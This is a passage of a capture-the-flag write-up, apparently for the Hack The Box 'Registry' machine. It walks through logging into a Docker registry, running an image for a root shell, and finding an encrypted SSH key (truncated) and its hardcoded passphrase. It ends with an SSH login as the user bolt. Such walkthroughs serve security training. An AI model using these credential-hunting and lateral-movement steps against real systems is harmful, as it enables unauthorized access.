 Now login into the registry is successful:
```
docker login docker.registry.htb
```
```
Username: admin
Password:
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
```

Downloading and executing `sh` on the container:
```
docker run -it docker.registry.htb/bolt-image sh
```

This gives access to the container as root and interesting files can be searched.
There is an encrypted private SSH key in _/root/.ssh/id_rsa_ that is probably for the user _bolt_ as _/root/.ssh/id_rsa.pub_ shows that username.
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,1C98FA248505F287CCC597A59CF83AB9

KF9YHXRjDZ35Q9ybzkhcUNKF8DSZ+aNLYXPL3kgdqlUqwfpqpbVdHbMeDk7qbS7w
(...)
```

To find passwords, the container will be searched for modified files on a specific time range.
The SSL certificate _ca.crt_ from the beginning was created on May 6 2019 and the SSH keys on May 25 2019.

By searching for files in that time range, it can be found out which files were changed in that time range:
```
find / -type f -newermt "2019-05-05" ! -newermt "2019-05-26" -ls 2>/dev/null | grep -v ' /var/'
```

After looking through interesting files, a password can be found in the shell script _/etc/profile.d/01-ssh.sh_:  
```
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Using the SSH key and the password, it is possible to log into the box via SSH as _bolt_:
```
ssh -i bolt_id_rsa bolt@10.10.10.159
```
